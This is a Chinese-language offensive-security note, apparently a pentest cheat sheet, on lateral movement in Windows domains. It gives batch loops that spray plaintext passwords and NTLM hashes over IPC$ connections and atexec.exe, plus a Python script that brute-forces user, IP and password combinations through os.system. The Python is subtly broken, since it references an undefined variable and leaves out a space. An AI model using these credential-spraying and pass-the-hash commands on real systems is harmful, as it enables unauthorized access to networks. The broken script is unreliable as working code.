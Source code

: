 之后就可以批量 HASH 传递

~~~powershell
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测 IP 对应明文
连接
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami #批量检测 IP 对应明文
回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.3.21 whoami #批量检测明文对应 IP
回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.3.21 whoami #批量检测
HASH 对应 IP 回显版
~~~

支持用户名，ip，密码（明文/hash）三个变量变化python脚本打包成exe：

~~~python
import os,time

ips={
	'124.70.20.10',
	'114.114.114.114'
}

users={
	'boss',
	'dbadmin'
}

passs={
	'admin',
	'admin123'
}

for i in ips:
	for user in users:
		for mima in passs:
			exec="net use \\"+ "\\"+ip+'\ipc$'+mima+' /user:god\\'+user
			print('--->'+exec+'<---')
			os.system(exec)
			time.sleep(1)
~~~





！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！

windows系统有四种安全认证，LM hash，NTLM hash，NTLM2 hash，Kerberos。

第一种LM hash用在早期的xp或者98这种，需要得到LM hash

NT之后默认是NTLM hash

现在都是Kerberos了

#### 域横向 smb&wmi 明文或 hash 传递

